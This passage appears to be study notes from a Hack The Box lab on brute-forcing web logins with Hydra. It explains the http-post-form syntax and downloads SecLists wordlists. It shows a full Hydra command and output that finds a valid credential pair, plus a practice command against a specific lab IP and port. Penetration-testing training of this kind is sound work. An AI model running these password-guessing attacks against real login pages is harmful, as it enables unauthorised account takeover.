   Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

Let's apply this to our scenario. We've discovered:
  The form submits data to the root path (/).
  The username field is named username.
  The password field is named password.
  An error message "Invalid credentials" is displayed upon failed login.
Therefore, our params string would be:
```bash
  /:username=^USER^&password=^PASS^:F=Invalid credentials
```
  "/": The path where the form is submitted.
  username=^USER^&password=^PASS^: The form parameters with placeholders for Hydra.
  F=Invalid credentials: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
We will be using top-usernames-shortlist.txt for the username list, and 2023-200_most_used_passwords.txt for the password list.

This params string is incorporated into the Hydra command as follows. Hydra will systematically substitute ^USER^ and ^PASS^ with values from your wordlists, sending POST requests to the target and analyzing the responses for the specified failure condition. If a login attempt doesn't trigger the "Invalid credentials" message, Hydra will flag it as a potential success, revealing the valid credentials.
```bash
  # Download wordlists if needed
  naruto3co@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
  naruto3co@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  # Hydra command
  naruto3co@htb[/htb]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
  
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 12:51:14
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
  [DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:F=Invalid credentials
  [5000][http-post-form] host: IP   login: ...   password: ...
  [STATUS] attack finished for IP (valid pair found)
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 12:51:28
```

Bài thực hành : hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.53.81 -s 57732 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

# Medusa
